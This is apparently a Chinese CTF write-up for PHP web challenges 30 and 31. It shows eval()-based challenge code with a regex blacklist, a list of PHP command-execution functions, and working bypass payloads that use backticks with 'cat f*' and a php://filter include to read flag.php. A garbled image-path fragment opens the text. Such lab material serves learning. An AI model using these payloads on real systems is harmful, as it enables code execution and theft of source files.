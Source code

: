 ?c=echo "npfs"; ?>ctf <?php include($_GET['url']);&url=php://filter/read=convert.base64-encode/resource=flag.php



## web 30

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

该题与29题的不同之处就是增加了对命令执行函数的过滤，命令执行的函数有很多

```
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
反引号 同shell_exec() 
```
这里需要注意一下，只有system函数是有回显的，其他的函数可以通过echo等显示

这里采用反引号绕过

解法一：
payload：c=echo \`cat f*`;

解法二：
payload：
?c=echo "npfs "; include($_GET['url']); ?>&url=php://filter/read=convert.base64-encode/resource=flag.php



## web  31

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
